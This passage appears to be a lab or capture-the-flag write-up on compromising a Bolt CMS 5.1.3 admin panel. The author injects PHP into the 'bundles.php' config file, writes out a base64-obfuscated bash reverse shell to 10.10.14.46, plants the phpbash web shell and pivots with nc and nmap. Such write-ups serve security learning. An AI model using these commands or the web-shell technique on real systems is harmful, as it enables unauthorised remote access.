 We can also see the bolt version which is `Bolt v 5.1.3`

<img src="https://i.imgur.com/9zAu9kP.png"/>

Having access to admin dashboard we can an option to upload files but problem is that it has a whitelist that is allowing specfic file extensions 

<img src="https://i.imgur.com/cnXYdUd.png"/>

Visting `All Configuration Files` from `Configuration` we'll see a file named `bundles.php`

<img src="https://i.imgur.com/CmvNv9k.png"/>

<img src="https://i.imgur.com/wt7J7p5.png"/>

Adding a php command in that file will lead too execute that on a 404 request 

<img src="https://i.imgur.com/iDf8Ldi.png"/>

<img src="https://i.imgur.com/8ZcMv4S.png"/>

I tried getting the reverse shell the same way as I did with javormi container but the connection kept closing

```bash
system("bash -c 'echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC40Ni8yMjIyIDA+JjEK | base64 -d |bash'")
```

<img src="https://i.imgur.com/Ir3quTG.png"/>

Instead I just copied php bash a web interactive shell  in bundles.php

https://github.com/Arrexel/phpbash/blob/master/phpbash.php

<img src="https://i.imgur.com/O1Dedpq.png"/>

<img src="https://i.imgur.com/PtmsJFN.png"/>

So looks like we are in another container and this would be for bolt cms, we can get a reverse shell from here

<img src="https://i.imgur.com/Rf3tIAn.png"/>

<img src="https://i.imgur.com/Zaah4Y4.png"/>

The reason I used `rlwrap` before `nc` is because there's no python or python3 on container which would allow us to stabilize the shell to get autocomplete and naviagting around bash history so rlwrap kinda gives us that functionaility

On the conatiner we can also see that there's `curl` so we can download `nmap` and run a scan to see if there are any other containers in the network

<img src="https://i.imgur.com/RKhkwuO.png"/>

<img src="https://i.imgur.com/B7JnX71.png"/>
